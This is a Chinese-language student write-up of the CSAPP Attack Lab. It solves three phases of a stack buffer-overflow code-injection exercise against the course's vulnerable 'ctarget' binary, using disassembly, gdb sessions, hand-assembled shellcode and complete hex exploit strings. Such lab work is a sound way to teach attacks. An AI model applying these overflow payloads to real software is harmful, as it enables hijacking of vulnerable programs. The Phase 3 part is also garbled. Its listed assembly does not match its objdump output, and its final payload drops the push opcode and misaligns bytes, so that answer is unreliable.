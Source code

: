 ## Prepration
实验目的：
1、了解缓冲区溢出（stack discipline）
2、write code away from stack discipline
文件结构：
CSAPP-AttackLab
	AttackLab.md
	target1
		cookie.txt 一个8位16进制数，作为攻击的特殊标志符
		ctarget 代码注入攻击的目标文件
		farm.c 在ROP攻击中作为gadgets产生源
		hex2raw 将16进制数转化为攻击字符
		README.txt
		rtarget ROP攻击的目标文件
实验环境：
Centos8-Linux

# Phase1

objdump -d ./ctarget>>ctarget.s //反汇编
![](../imgs/Pasted image 20240620171305.png)
CI: run getbuf return to touch1 adress, touch1 adress : 0x4017c0
getbuf有40个字节的栈空间，所以注入代码应填为:
phase1_ans.txt:
	00 00 00 00 00 00 00 00
	00 00 00 00 00 00 00 00
	00 00 00 00 00 00 00 00
	00 00 00 00 00 00 00 00
	00 00 00 00 00 00 00 00
	c0 17 40 00 00 00 00 00

--------------------------

# Phase2

![](../imgs/Pasted image 20240621112009.png) 

思路关键：在getbuf中给%rdi赋值cookie.txt中的0x59b997fa

```cpp
// in phase2.s
movq $0x59b997fa,%rdi
pushq  $0x4017ec
ret

gcc -c phase2.s -o phase2.o 
objdump -d phase2.o >phase2.txt 

// in phase2.txt

phase2.o：     文件格式 elf64-x86-64
Disassembly of section .text:

0000000000000000 <.text>:
   0:	48 c7 c7 fa 97 b9 59 	mov    $0x59b997fa,%rdi
   9:	68 ec 17 40 00       	pushq  $0x4017ec
   e:	c3                   	retq   
```
因此，结合phase1进行缓存区溢出，即溢出区域地址返回到想要插入的%rsp地址，观察getbuf函数的代码，可知应在mov %rsp,%rdi后加入攻击代码，即<Gets>之前

![](../imgs/微信截图_20240621125123.png) 

通过gdb调试日志查询得到<Gets>时的$rsp值：

```
gdb ctarget
b getbuf
run -q
disas
Dump of assembler code for function getbuf:
   0x00000000004017a8 <+0>:     sub    $0x28,%rsp
   0x00000000004017ac <+4>:     mov    %rsp,%rdi
=> 0x00000000004017af <+7>:     callq  0x401a40 <Gets>
   0x00000000004017b4 <+12>:    mov    $0x1,%eax
   0x00000000004017b9 <+17>:    add    $0x28,%rsp
   0x00000000004017bd <+21>:    retq   
End of assembler dump.
(gdb) p /x $rsp
$1 = 0x5561dc78
```

因此注入代码答案为：

48 c7 c7 fa 97 b9 59 68
ec 17 40 c3 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00

## Phase3

![](../imgs/微信截图_20240624163459.png) 

man ascii,

cookie: 59b997fa

str -> Hex: 

35 39 62 39 39 37 66 61

<test> -> $rsp: 0x5561dca8, 我们将字符串放在这里，保证getbuf里面的函数不覆盖字符串

disas touch3 -> touch3跳转地址为：0x4018fa

````
vim phase3.txt：

```
movq $0x59b997fa,%rdi

pushq  $0x4017ec

ret
```

gcc -c phase3.s -o phase3.o 
objdump -d phase3.o >phase3.txt 

phase3.o:     file format elf64-x86-64
Disassembly of section .text:

0000000000000000 <.text>:
   0:	48 c7 c7 a8 dc 61 55 	mov    $0x5561dca8,%rdi
   7:	68 fa 18 40 00       	pushq  $0x4018fa
   c:	c3                   	retq   
````

因此注入代码答案为：

48 c7 c7 a8 dc 61 55 00 //0x5561dc78, 注入代码，将字符串赋值给$rdi
fa 18 40 00 c3 00 00 00 // pushq $0x4018fa, 赋值%rsp，跳转touch3
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00 //0x5561dca0, 跳转到<Get>前
35 39 62 39 39 37 66 61 //0x5561dca8, 存储的字符串hex码


